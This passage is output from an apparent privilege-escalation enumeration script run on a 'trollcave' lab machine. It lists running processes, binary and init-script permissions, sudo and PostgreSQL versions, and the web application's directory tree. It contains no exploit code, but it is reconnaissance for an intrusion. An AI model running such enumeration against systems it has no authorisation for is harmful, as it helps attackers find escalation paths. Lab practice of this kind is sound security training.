postgres  1044  0.0  3.1 294704 24112 ?        S    01:56   0:00 /usr/lib/postgresql/9.5/bin/postgres -D /var/lib/postgresql/9.5/main -c config_file=/etc/postgresql/9.5/main/postgresql.conf
root      1079  0.0  0.8  65508  6248 ?        Ss   01:56   0:00 /usr/sbin/sshd -D
root      1095  0.0  0.0   5220   148 ?        Ss   01:56   0:00 /sbin/iscsid
root      1096  0.0  0.4   5720  3516 ?        S<Ls 01:56   0:02 /sbin/iscsid
postgres  1150  0.0  0.9 294804  7024 ?        Ss   01:56   0:00 postgres: checkpointer process
postgres  1151  0.0  0.7 294704  5608 ?        Ss   01:56   0:00 postgres: writer process
postgres  1152  0.0  1.1 294704  8768 ?        Ss   01:56   0:00 postgres: wal writer process
postgres  1153  0.0  0.8 295088  6648 ?        Ss   01:56   0:00 postgres: autovacuum launcher process
postgres  1154  0.0  0.4 149828  3372 ?        Ss   01:56   0:00 postgres: stats collector process
root      1159  0.0  0.2  15936  1832 tty1     Ss+  01:56   0:00 /sbin/agetty --noclear tty1 linux
root      1183  0.0  0.1 124972  1420 ?        Ss   01:56   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data  1184  0.0  0.6 125684  4824 ?        S    01:56   0:03 nginx: worker process
rails     1211  0.0  7.3 211704 55460 ?        Ssl  01:56   0:01 ruby /var/www/coolguy/coolguymod.rb
postgres  1217  0.0  2.2 296804 16940 ?        Ss   01:56   0:00 postgres: tc trollcave ::1(56326) idle
postgres  1348  0.0  2.1 296728 16648 ?        Ss   02:03   0:00 postgres: tc trollcave ::1(56680) idle
postgres  1351  0.0  2.2 296872 17000 ?        Ss   02:03   0:00 postgres: tc trollcave ::1(56682) idle
postgres  1352  0.0  2.2 296824 17064 ?        Ss   02:03   0:00 postgres: tc trollcave ::1(56684) idle
postgres  1353  0.0  2.2 296804 16940 ?        Ss   02:03   0:00 postgres: tc trollcave ::1(56686) idle
root      2252  0.0  0.0      0     0 ?        S    03:02   0:00 [kworker/u2:2]
root      3660  0.0  0.0      0     0 ?        S    04:27   0:00 [kworker/0:2]
root      4220  0.0  0.0      0     0 ?        S    05:01   0:00 [kworker/u2:0]
root      4540  0.0  0.0      0     0 ?        S    05:17   0:00 [kworker/0:0]
root      4548  0.0  0.9  92796  6924 ?        Ss   05:17   0:00 sshd: rails [priv]
rails     4550  0.0  0.6  45240  4748 ?        Ss   05:17   0:00 /lib/systemd/systemd --user
rails     4551  0.0  0.2  61144  1848 ?        S    05:17   0:00 (sd-pam)
rails     4585  0.0  0.5  92796  4144 ?        S    05:17   0:00 sshd: rails@pts/0
rails     4586  0.0  0.1   4504   788 pts/0    Ss   05:17   0:00 -sh
rails     4589  0.0  0.4  21180  3784 pts/0    S    05:17   0:00 bash
root      4651  0.0  0.0      0     0 ?        S    05:21   0:00 [kworker/u2:1]
rails     4704  0.7  0.5  13460  3808 pts/0    S+   05:24   0:00 bash
rails     4706  0.0  0.4  13564  3484 pts/0    S+   05:24   0:00 bash
rails     4707  0.0  0.0   7296   676 pts/0    S+   05:24   0:00 tee -a
rails     4894  0.0  0.3  13564  2912 pts/0    S+   05:24   0:00 bash
rails     4895  0.0  0.4  37364  3300 pts/0    R+   05:24   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
1.6M -rwxr-xr-x 1 root root 1.6M Feb  1 16:31 /lib/systemd/systemd
320K -rwxr-xr-x 1 root root 319K Feb  1 16:31 /lib/systemd/systemd-journald
608K -rwxr-xr-x 1 root root 605K Feb  1 16:31 /lib/systemd/systemd-logind
140K -rwxr-xr-x 1 root root 139K Feb  1 16:31 /lib/systemd/systemd-timesyncd
444K -rwxr-xr-x 1 root root 443K Feb  1 16:31 /lib/systemd/systemd-udevd
 44K -rwxr-xr-x 1 root root  44K Nov 30 22:04 /sbin/agetty
476K -rwxr-xr-x 1 root root 476K Mar  5 14:18 /sbin/dhclient
   0 lrwxrwxrwx 1 root root   20 Feb  1 16:31 /sbin/init -> /lib/systemd/systemd
768K -rwxr-xr-x 1 root root 766K Jul 26  2017 /sbin/iscsid
 52K -rwxr-xr-x 1 root root  51K Apr 16  2016 /sbin/lvmetad
504K -rwxr-xr-x 1 root root 502K Nov  8 15:18 /sbin/mdadm
220K -rwxr-xr-x 1 root root 219K Jan 12  2017 /usr/bin/dbus-daemon
 20K -rwxr-xr-x 1 root root  19K Nov  9 03:43 /usr/bin/lxcfs
 11M -rwxr-xr-x 1 root root  11M May 21  2016 /usr/bin/nodejs
8.0K -rwxr-xr-x 1 root root 6.0K Jan 30 21:04 /usr/bin/ruby2.3
164K -rwxr-xr-x 1 root root 162K Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
 16K -rwxr-xr-x 1 root root  15K Jan 18  2016 /usr/lib/policykit-1/polkitd
6.2M -rwxr-xr-x 1 root root 6.2M Mar  1 18:52 /usr/lib/postgresql/9.5/bin/postgres
 21M -rwxr-xr-x 1 root root  21M Nov 30 21:48 /usr/lib/snapd/snapd
 48K -rwxr-xr-x 1 root root  47K Apr  9  2016 /usr/sbin/acpid
 28K -rwxr-xr-x 1 root root  27K Jan 15  2016 /usr/sbin/atd
 44K -rwxr-xr-x 1 root root  44K Apr  5  2016 /usr/sbin/cron
588K -rwxr-xr-x 1 root root 586K Apr  5  2016 /usr/sbin/rsyslogd
776K -rwxr-xr-x 1 root root 773K Jan 18 16:16 /usr/sbin/sshd


[-] /etc/init.d/ binary permissions:
total 324
drwxr-xr-x  2 root root 4096 Oct 23  2017 .
drwxr-xr-x 99 root root 4096 Oct 23  2017 ..
-rwxr-xr-x  1 root root 2243 Feb 10  2016 acpid
-rwxr-xr-x  1 root root 6223 Mar  4  2017 apparmor
-rwxr-xr-x  1 root root 2802 Jan  2 23:06 apport
-rwxr-xr-x  1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x  1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x  1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Dec  2  2015 dbus
-rw-r--r--  1 root root 1194 Oct 23  2017 .depend.boot
-rw-r--r--  1 root root 1132 Oct 23  2017 .depend.start
-rw-r--r--  1 root root 1132 Oct 23  2017 .depend.stop
-rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup.dpkg-bak
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 21  2015 kmod
-rwxr-xr-x  1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x  1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2378 Nov  9 03:43 lxcfs
-rwxr-xr-x  1 root root 2541 Apr 15  2016 lxd
-rwxr-xr-x  1 root root 2365 Oct  9  2017 mdadm
-rwxr-xr-x  1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x  1 root root 4579 Apr 26  2016 nginx
-rwxr-xr-x  1 root root 1581 Oct 16  2015 ondemand
-rwxr-xr-x  1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x  1 root root 1578 Mar 30  2016 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1490 May  6  2015 postgresql
-rwxr-xr-x  1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Apr 13  2016 ssh
-rwxr-xr-x  1 root root 1597 Jan 28  2016 sysstat
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 Apr 13  2016 uuidd
-rwxr-xr-x  1 root root 2757 Nov 10  2015 x11-common


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.16


[-] Postgres version:
psql (PostgreSQL) 9.5.12


[-] www home dir contents:
/var/www/:
total 20K
drwxr-xr-x  5 root  root  4.0K Oct 23  2017 .
drwxr-xr-x 14 root  root  4.0K Sep 16  2016 ..
drwxr-xr-x  3 rails root  4.0K Oct 23  2017 coolguy
drwxr-xr-x  2 root  root  4.0K Sep 16  2016 html
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 trollcave

/var/www/coolguy:
total 20K
drwxr-xr-x 3 rails root  4.0K Oct 23  2017 .
drwxr-xr-x 5 root  root  4.0K Oct 23  2017 ..
-rw-rw-r-- 1 rails rails  290 Sep 29  2017 coolguymod.js
-rw-rw-r-- 1 rails rails 1.2K Oct 23  2017 coolguymod.rb
drwxr-xr-x 4 rails rails 4.0K Jan 25  2016 phantomjs

/var/www/coolguy/phantomjs:
total 48K
drwxr-xr-x 4 rails rails 4.0K Jan 25  2016 .
drwxr-xr-x 3 rails root  4.0K Oct 23  2017 ..
drwxr-xr-x 2 rails rails 4.0K Jan 25  2016 bin
-rw-r--r-- 1 rails rails  17K Jan 25  2016 ChangeLog
drwxr-xr-x 2 rails rails 4.0K Jan 25  2016 examples
-rw-r--r-- 1 rails rails 1.4K Jan 25  2016 LICENSE.BSD
-rw-r--r-- 1 rails rails 2.5K Jan 25  2016 README.md
-rw-r--r-- 1 rails rails 1.5K Jan 25  2016 third-party.txt

/var/www/coolguy/phantomjs/bin:
total 65M
drwxr-xr-x 2 rails rails 4.0K Jan 25  2016 .
drwxr-xr-x 4 rails rails 4.0K Jan 25  2016 ..
-rwxr-xr-x 1 rails rails  65M Jan 25  2016 phantomjs

/var/www/coolguy/phantomjs/examples:
total 244K
drwxr-xr-x 2 rails rails 4.0K Jan 25  2016 .
drwxr-xr-x 4 rails rails 4.0K Jan 25  2016 ..
-rw-r--r-- 1 rails rails  267 Jan 25  2016 arguments.js
-rw-r--r-- 1 rails rails  686 Jan 25  2016 child_process-examples.js
-rw-r--r-- 1 rails rails 1.7K Jan 25  2016 colorwheel.js
-rw-r--r-- 1 rails rails  226 Jan 25  2016 countdown.js
-rw-r--r-- 1 rails rails 1.8K Jan 25  2016 detectsniff.js
-rw-r--r-- 1 rails rails  601 Jan 25  2016 echoToFile.js
-rw-r--r-- 1 rails rails  806 Jan 25  2016 features.js
-rw-r--r-- 1 rails rails  286 Jan 25  2016 fibo.js
-rw-r--r-- 1 rails rails   60 Jan 25  2016 hello.js
-rw-r--r-- 1 rails rails  865 Jan 25  2016 injectme.js
-rw-r--r-- 1 rails rails  674 Jan 25  2016 loadspeed.js
-rw-r--r-- 1 rails rails  715 Jan 25  2016 loadurlwithoutcss.js
-rw-r--r-- 1 rails rails  51K Jan 25  2016 modernizr.js
-rw-r--r-- 1 rails rails  135 Jan 25  2016 module.js
-rw-r--r-- 1 rails rails  671 Jan 25  2016 netlog.js
-rw-r--r-- 1 rails rails 4.2K Jan 25  2016 netsniff.js
-rw-r--r-- 1 rails rails  779 Jan 25  2016 openurlwithproxy.js
-rw-r--r-- 1 rails rails  392 Jan 25  2016 outputEncoding.js
-rw-r--r-- 1 rails rails  623 Jan 25  2016 pagecallback.js
-rw-r--r-- 1 rails rails 4.5K Jan 25  2016 page_events.js
-rw-r--r-- 1 rails rails  622 Jan 25  2016 phantomwebintro.js
-rw-r--r-- 1 rails rails  394 Jan 25  2016 post.js
-rw-r--r-- 1 rails rails  472 Jan 25  2016 postjson.js
-rw-r--r-- 1 rails rails  920 Jan 25  2016 postserver.js
-rw-r--r-- 1 rails rails  185 Jan 25  2016 printenv.js
-rw-r--r-- 1 rails rails 3.7K Jan 25  2016 printheaderfooter.js
-rw-r--r-- 1 rails rails 1.1K Jan 25  2016 printmargins.js
-rw-r--r-- 1 rails rails 2.2K Jan 25  2016 rasterize.js
-rw-r--r-- 1 rails rails 2.2K Jan 25  2016 render_multi_url.js
-rw-r--r-- 1 rails rails 4.0K Jan 25  2016 responsive-screenshot.js
-rw-r--r-- 1 rails rails 4.0K Jan 25  2016 run-jasmine2.js
-rw-r--r-- 1 rails rails 3.9K Jan 25  2016 run-jasmine.js
-rw-r--r-- 1 rails rails 3.1K Jan 25  2016 run-qunit.js
-rw-r--r-- 1 rails rails  633 Jan 25  2016 scandir.js
-rw-r--r-- 1 rails rails 1.5K Jan 25  2016 server.js
-rw-r--r-- 1 rails rails 1.1K Jan 25  2016 serverkeepalive.js
-rw-r--r-- 1 rails rails 1.3K Jan 25  2016 simpleserver.js
-rw-r--r-- 1 rails rails  759 Jan 25  2016 sleepsort.js
-rw-r--r-- 1 rails rails  616 Jan 25  2016 stdin-stdout-stderr.js
-rw-r--r-- 1 rails rails  314 Jan 25  2016 universe.js
-rw-r--r-- 1 rails rails  655 Jan 25  2016 unrandomize.js
-rw-r--r-- 1 rails rails  498 Jan 25  2016 useragent.js
-rw-r--r-- 1 rails rails  161 Jan 25  2016 version.js
-rw-r--r-- 1 rails rails 2.6K Jan 25  2016 waitfor.js
-rw-r--r-- 1 rails rails 3.3K Jan 25  2016 walk_through_frames.js

/var/www/html:
total 12K
drwxr-xr-x 2 root root 4.0K Sep 16  2016 .
drwxr-xr-x 5 root root 4.0K Oct 23  2017 ..
-rw-r--r-- 1 root root  612 Sep 16  2016 index.nginx-debian.html

/var/www/trollcave:
total 80K
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x  5 root  root  4.0K Oct 23  2017 ..
drwxr-xr-x  8 rails rails 4.0K Sep 16  2016 app
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 bin
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .bundle
drwxr-xr-x  5 rails rails 4.0K Oct 23  2017 config
-rw-r--r--  1 rails rails  153 Sep 16  2016 config.ru
drwxr-xr-x  3 rails rails 4.0K Oct 23  2017 db
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 Gemfile
-rw-r--r--  1 rails rails 4.8K Sep 16  2016 Gemfile.lock
-rw-r--r--  1 rails rails  751 Sep 16  2016 .gitignore
drwxr-xr-x  4 rails rails 4.0K Sep 16  2016 lib
drwxrwxr-x  2 rails rails 4.0K Oct 21  2016 log
-rw-r--r--  1 rails rails   40 Sep 16  2016 Procfile
drwxr-xr-x  4 rails rails 4.0K Oct 21  2016 public
-rw-r--r--  1 rails rails  249 Sep 16  2016 Rakefile
drwxr-xr-x  8 rails rails 4.0K Sep 16  2016 test
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 tmp
drwxr-xr-x  4 rails rails 4.0K Sep 16  2016 vendor

/var/www/trollcave/app:
total 32K
drwxr-xr-x  8 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 13 rails rails 4.0K Oct 23  2017 ..
drwxr-xr-x  5 rails rails 4.0K Sep 16  2016 assets
drwxr-xr-x  3 rails rails 4.0K Oct 23  2017 controllers
drwxr-xr-x  2 rails rails 4.0K Oct 20  2017 helpers
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 mailers
drwxr-xr-x  3 rails rails 4.0K Oct 20  2017 models
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 views

/var/www/trollcave/app/assets:
total 20K
drwxr-xr-x 5 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
drwxr-xr-x 2 rails rails 4.0K Oct 20  2017 images
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 javascripts
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 stylesheets

/var/www/trollcave/app/assets/images:
total 140K
drwxr-xr-x 2 rails rails 4.0K Oct 20  2017 .
drwxr-xr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r-- 1 rails rails 132K Oct 20  2017 640px-Troll_Warning.jpg
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/app/assets/javascripts:
total 52K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  211 Sep 16  2016 admin_settings.coffee
-rw-r--r-- 1 rails rails  662 Sep 16  2016 application.js
-rw-r--r-- 1 rails rails  211 Sep 16  2016 blogs.coffee
-rw-r--r-- 1 rails rails  213 Sep 16  2016 comments.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 pages.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 password_resets.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 p_ms.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 reports.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 sessions.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 user_files.coffee
-rw-r--r-- 1 rails rails  211 Sep 16  2016 users.coffee

/var/www/trollcave/app/assets/stylesheets:
total 52K
drwxr-xr-x 2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 5 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  184 Sep 16  2016 admin_settings.scss
-rw-rw-r-- 1 rails rails 4.1K Oct 23  2017 application.css.scss
-rw-rw-r-- 1 rails rails  518 Oct 20  2017 blogs.scss
-rw-r--r-- 1 rails rails  531 Sep 16  2016 comments.scss
-rw-r--r-- 1 rails rails  185 Sep 16  2016 password_resets.scss
-rw-r--r-- 1 rails rails  346 Sep 16  2016 p_ms.scss
-rw-r--r-- 1 rails rails  178 Sep 16  2016 reports.scss
-rw-r--r-- 1 rails rails  510 Sep 16  2016 scaffolds.scss
-rw-r--r-- 1 rails rails  180 Sep 16  2016 user_files.scss
-rw-r--r-- 1 rails rails  550 Sep 16  2016 users.scss

/var/www/trollcave/app/controllers:
total 60K
drwxr-xr-x 3 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 admin_settings_controller.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 application_controller.rb
-rw-rw-r-- 1 rails rails 3.4K Oct 23  2017 blogs_controller.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 comments_controller.rb
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 concerns
-rw-r--r-- 1 rails rails  160 Sep 16  2016 pages_controller.rb
-rw-r--r-- 1 rails rails 1.5K Sep 29  2017 password_resets_controller.rb
-rw-r--r-- 1 rails rails 3.1K Sep 29  2017 private_messages_controller.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 reports_controller.rb
-rw-r--r-- 1 rails rails  553 Sep 29  2017 sessions_controller.rb
-rw-rw-r-- 1 rails rails 2.9K Oct 23  2017 user_files_controller.rb
-rw-rw-r-- 1 rails rails 5.7K Oct 23  2017 users_controller.rb

/var/www/trollcave/app/controllers/concerns:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 3 rails rails 4.0K Oct 23  2017 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/app/helpers:
total 52K
drwxr-xr-x 2 rails rails 4.0K Oct 20  2017 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   31 Sep 16  2016 admin_settings_helper.rb
-rw-r--r-- 1 rails rails  488 Sep 16  2016 application_helper.rb
-rw-r--r-- 1 rails rails  355 Sep 16  2016 blogs_helper.rb
-rw-r--r-- 1 rails rails   26 Sep 16  2016 comments_helper.rb
-rw-r--r-- 1 rails rails   23 Sep 16  2016 pages_helper.rb
-rw-r--r-- 1 rails rails   32 Sep 16  2016 password_resets_helper.rb
-rw-r--r-- 1 rails rails   21 Sep 16  2016 p_ms_helper.rb
-rw-r--r-- 1 rails rails   25 Sep 16  2016 reports_helper.rb
-rw-r--r-- 1 rails rails  846 Sep 28  2017 sessions_helper.rb
-rw-r--r-- 1 rails rails   27 Sep 16  2016 user_files_helper.rb
-rw-r--r-- 1 rails rails   23 Sep 16  2016 users_helper.rb

/var/www/trollcave/app/mailers:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/app/models:
total 40K
drwxr-xr-x 3 rails rails 4.0K Oct 20  2017 .
drwxr-xr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   44 Sep 16  2016 admin_setting.rb
-rw-r--r-- 1 rails rails  468 Sep 16  2016 blog.rb
-rw-r--r-- 1 rails rails  389 Sep 16  2016 comment.rb
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 concerns
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep
-rw-r--r-- 1 rails rails  301 Sep 16  2016 private_message.rb
-rw-r--r-- 1 rails rails  232 Sep 16  2016 report.rb
-rw-rw-r-- 1 rails rails  308 Oct 21  2016 user_file.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 user.rb

/var/www/trollcave/app/models/concerns:
total 8.0K
drwxr-xr-x 2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 3 rails rails 4.0K Oct 20  2017 ..
-rw-r--r-- 1 rails rails    0 Sep 16  2016 .keep

/var/www/trollcave/app/views:
total 56K
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x  8 rails rails 4.0K Sep 16  2016 ..
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 admin_settings
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 blogs
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 comments
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 layouts
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 pages
drwxr-xr-x  2 rails rails 4.0K Mar 21 14:01 password_resets
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 private_messages
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 reports
drwxr-xr-x  2 rails rails 4.0K Sep 29  2017 sessions
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 shared
drwxr-xr-x  2 rails rails 4.0K Oct 21  2016 user_files
drwxr-xr-x  2 rails rails 4.0K Sep 29  2017 users

/var/www/trollcave/app/views/admin_settings:
total 12K
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  633 Sep 16  2016 edit.html.haml

/var/www/trollcave/app/views/blogs:
total 40K
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails  375 Oct 23  2017 _blog.html.haml
-rw-r--r--  1 rails rails   69 Sep 16  2016 edit.html.haml
-rw-r--r--  1 rails rails  314 Sep 16  2016 _form.html.haml
-rw-r--r--  1 rails rails  473 Sep 16  2016 index.html.haml
-rw-r--r--  1 rails rails  129 Sep 16  2016 index.json.jbuilder
-rw-r--r--  1 rails rails   72 Sep 16  2016 new.html.haml
-rw-rw-r--  1 rails rails  615 Oct 23  2017 show.html.haml
-rw-r--r--  1 rails rails   79 Sep 16  2016 show.json.jbuilder

/var/www/trollcave/app/views/comments:
total 40K
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails  469 Oct 23  2017 _comment.html.haml
-rw-r--r--  1 rails rails  100 Sep 16  2016 edit.html.haml
-rw-r--r--  1 rails rails  218 Sep 16  2016 _form.html.haml
-rw-r--r--  1 rails rails   48 Sep 16  2016 index.html.haml
-rw-r--r--  1 rails rails  146 Sep 16  2016 index.json.jbuilder
-rw-r--r--  1 rails rails   66 Sep 16  2016 new.html.haml
-rw-r--r--  1 rails rails  190 Sep 16  2016 show.html.haml
-rw-r--r--  1 rails rails   84 Sep 16  2016 show.json.jbuilder

/var/www/trollcave/app/views/layouts:
total 24K
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails  800 Oct 20  2017 application.html.haml
-rw-r--r--  1 rails rails  107 Sep 16  2016 _left_sidebar.html.haml
-rw-rw-r--  1 rails rails  205 Oct 20  2017 _right_sidebar.html.haml
-rw-rw-r--  1 rails rails  786 Oct 23  2017 _sitenav.html.haml

/var/www/trollcave/app/views/pages:
total 12K
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails   60 Sep 16  2016 home.html.haml

/var/www/trollcave/app/views/password_resets:
total 16K
drwxr-xr-x  2 rails rails 4.0K Mar 21 14:01 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-rw-r--  1 rails rails  411 Oct 23  2017 edit.html.haml
-rw-rw-r--  1 rails rails  206 Mar 21 14:01 new.html.haml

/var/www/trollcave/app/views/private_messages:
total 36K
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails   45 Sep 16  2016 edit.html.haml
-rw-r--r--  1 rails rails  376 Sep 16  2016 _form.html.haml
-rw-r--r--  1 rails rails  469 Sep 16  2016 index.html.haml
-rw-r--r--  1 rails rails  138 Sep 16  2016 index.json.jbuilder
-rw-r--r--  1 rails rails   43 Sep 16  2016 new.html.haml
-rw-r--r--  1 rails rails  250 Sep 16  2016 show.html.haml
-rw-r--r--  1 rails rails   96 Sep 16  2016 show.json.jbuilder

/var/www/trollcave/app/views/reports:
total 36K
drwxr-xr-x  2 rails rails 4.0K Oct 23  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails   97 Sep 16  2016 edit.html.haml
-rw-r--r--  1 rails rails  375 Sep 16  2016 _form.html.haml
-rw-rw-r--  1 rails rails  559 Oct 23  2017 index.html.haml
-rw-r--r--  1 rails rails  148 Sep 16  2016 index.json.jbuilder
-rw-r--r--  1 rails rails   64 Sep 16  2016 new.html.haml
-rw-r--r--  1 rails rails  234 Sep 16  2016 show.html.haml
-rw-r--r--  1 rails rails   90 Sep 16  2016 show.json.jbuilder

/var/www/trollcave/app/views/sessions:
total 12K
drwxr-xr-x  2 rails rails 4.0K Sep 29  2017 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  368 Sep 29  2017 new.html.haml

/var/www/trollcave/app/views/shared:
total 16K
drwxr-xr-x  2 rails rails 4.0K Sep 16  2016 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  193 Sep 16  2016 _error_messages.html.haml
-rw-r--r--  1 rails rails  315 Sep 16  2016 _user_info.html.haml

/var/www/trollcave/app/views/user_files:
total 36K
drwxr-xr-x  2 rails rails 4.0K Oct 21  2016 .
drwxr-xr-x 14 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  106 Sep 16  2016 edit.html.haml
-rw-rw-r--  1 rails rails  239 Oct 21  2016 _form.html.haml
-rw-r--r--  1 rails rails  258 Sep 16  2016 index.html.haml
-rw-r--r--  1 rails rails  147 Sep 16  2016 index.json.jbuilder
